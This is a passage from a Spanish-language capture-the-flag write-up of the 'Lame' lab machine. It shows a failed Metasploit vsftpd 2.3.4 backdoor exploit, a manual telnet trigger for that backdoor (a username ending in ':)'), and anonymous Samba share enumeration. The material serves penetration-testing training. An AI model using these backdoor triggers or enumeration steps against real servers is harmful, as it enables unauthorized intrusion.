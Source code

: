 ```sh
[msf](Jobs:0 Agents:0) exploit(unix/ftp/vsftpd_234_backdoor) >> exploit

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

Pero nada oye...Como no me funciona por metaexploit voy a intentarlo de otras maneras. Haciendo el searchsploit había un script en python podemos lanzarlo o replicarlo manualmente. Haré lo segundo:

```sh
telnet 10.10.10.3 21 
# Normalmente hacemos ftp ip y probamos con anonymous recuerda.
USER guise:) 
# Y enter. Puede ser cualquier cosa que acabe en sonrisa.
PASS guise
```

Pero en este caso no se abre el puerto 6200. Puede que sea un **rabbit hole**..


Vayamos con samba.

```sh
❯ smbclient -L=10.10.10.3 -N
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	tmp             Disk      oh noes!
	opt             Disk      
	IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful
... SNIP ....

# o también se puede hacer así:

❯ smbclient -L 10.10.10.3 -N
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	tmp             Disk      oh noes!
	opt             Disk      
	IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            LAME
```
